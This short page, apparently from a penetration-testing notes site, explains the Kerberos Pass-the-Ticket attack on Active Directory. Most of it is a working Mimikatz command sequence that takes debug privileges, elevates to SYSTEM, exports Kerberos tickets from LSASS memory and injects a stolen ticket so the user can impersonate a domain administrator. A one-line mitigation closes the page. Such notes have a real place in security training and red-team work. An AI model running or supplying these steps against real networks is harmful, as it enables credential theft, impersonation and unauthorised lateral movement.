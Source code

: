 ```yaml
---
title: "Pass-the-Ticket"
description: "Pass-the-Ticket attack."
lead: "How to perform Pass-the-Ticket using Mimikatz."
date: 2021-11-06T11:53:35+01:00
lastmod: 2021-11-06T11:53:35+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "lateral_movement"
weight: 60
toc: true
---
```


## Overview

- Use mimikatz to dump TGT from LSASS memory
- Will give us .kirbi ticket which can be used to gain domain admin if ticket is from domain admin
- Reuse old ticket to impersonate that ticket
- Can also use base64-encoded tickets gathered with Rubeus
- Look for Administrator tickets

## Exploitation

```powershell
# Start mimikatz and get SYSTEM
mimikatz.exe
privilege::debug
token::elevate

# Export all .kirbi tickets to current directory
sekurlsa::tickets /export

# PTT with mimikatz
kerberos::ptt <ticket>

# List cached tickets
klist
```

## Mitigation:

- Don't let domain admins log onto anything except the domain controller
